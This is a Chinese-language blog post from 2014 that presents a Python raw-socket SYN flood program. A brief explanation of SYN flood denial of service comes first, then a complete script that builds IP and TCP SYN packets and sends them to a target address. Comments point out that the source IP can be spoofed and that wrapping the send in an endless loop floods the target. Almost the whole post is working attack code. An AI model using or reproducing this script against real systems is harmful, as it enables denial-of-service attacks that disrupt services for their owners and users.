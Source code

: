 ```yaml
---
layout: post
title: "Python实现SYN Flood攻击"
categories: python
tags: [python, python flood攻击]
date: 2014-10-30 11:38:06
---
```


* 0×00 背景

SYN Flood是当前最流行的DoS（拒绝服务攻击）与DDoS（分布式拒绝服务攻击）的方式之一，这是一种利用TCP协议缺陷，发送大量伪造的TCP连接请求，从而使得被攻击方资源耗尽（CPU满负荷或内存不足）的攻击方式。

* 0×01 Code

本文章的目是介绍使用python构造packet的方法。
使用raw socket来发送packets。 该程序只适用于Linux。windows可以尝试调用winpcap。
 
{% highlight bash %}
'''
    Syn flood program in python using raw sockets (Linux)
    
    Silver Moon (m00n.silv3r@gmail.com)
'''
 
# some imports
import socket, sys
from struct import *
 
# checksum functions needed for calculation checksum
def checksum(msg):
    s = 0
    # loop taking 2 characters at a time
    for i in range(0, len(msg), 2):
        w = (ord(msg[i]) << 8) + (ord(msg[i+1]) )
        s = s + w
    
    s = (s>>16) + (s & 0xffff);
    #s = s + (s >> 16);
    #complement and mask to 4 byte short
    s = ~s & 0xffff
    
    return s
 
#create a raw socket
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
except socket.error , msg:
    print 'Socket could not be created. Error Code : ' + str(msg[0]) +' Message ' + msg[1]
    sys.exit()
 
# tell kernel not to put in headers, since we are providing it
s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
    
# now start constructing the packet
packet = '';
 
source_ip = '192.168.1.101'
dest_ip = '192.168.1.1' # or socket.gethostbyname('www.google.com')
 
# ip header fields
ihl = 5
version = 4
tos = 0
tot_len = 20 + 20  # python seems to correctly fill the total length, dont know how ??
id = 54321  #Id of this packet
frag_off = 0
ttl = 255
protocol = socket.IPPROTO_TCP
check = 10  # python seems to correctly fill the checksum
saddr =socket.inet_aton ( source_ip )  #Spoof the source ip address if you want to
daddr = socket.inet_aton ( dest_ip )
 
ihl_version = (version << 4) + ihl
 
# the ! in the pack format string means network order
ip_header = pack('!BBHHHBBH4s4s', ihl_version, tos, tot_len, id, frag_off, ttl, protocol, check, saddr, daddr)
 
# tcp header fields
source = 1234   # source port
dest = 80   # destination port
seq = 0
ack_seq = 0
doff = 5    #4 bit field, size of tcp header, 5 * 4 = 20 bytes
#tcp flags
fin = 0
syn = 1
rst = 0
psh = 0
ack = 0
urg = 0
window = socket.htons (5840)    #   maximum allowed window size
check = 0
urg_ptr = 0
 
offset_res = (doff << 4) + 0
tcp_flags = fin + (syn << 1) + (rst << 2) + (psh <<3) +(ack << 4) + (urg << 5)
 
# the ! in the pack format string means network order
tcp_header = pack('!HHLLBBHHH', source, dest, seq, ack_seq, offset_res, tcp_flags,  window, check, urg_ptr)
 
# pseudo header fields
source_address = socket.inet_aton( source_ip )
dest_address = socket.inet_aton(dest_ip)
placeholder = 0
protocol = socket.IPPROTO_TCP
tcp_length = len(tcp_header)
 
psh = pack('!4s4sBBH', source_address , dest_address , placeholder , protocol , tcp_length);
psh = psh + tcp_header;
 
tcp_checksum = checksum(psh)
 
# make the tcp header again and fill the correct checksum
tcp_header = pack('!HHLLBBHHH', source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)
 
# final full packet - syn packets dont have any data
packet = ip_header + tcp_header
 
#Send the packet finally - the port specified has no effect
s.sendto(packet, (dest_ip , 0))    # put this in a loop if you want to flood the target
 
#put the above line in a loop like while 1: if you want to flood
{% endhighlight %}


注意：运行时需要Root权限。
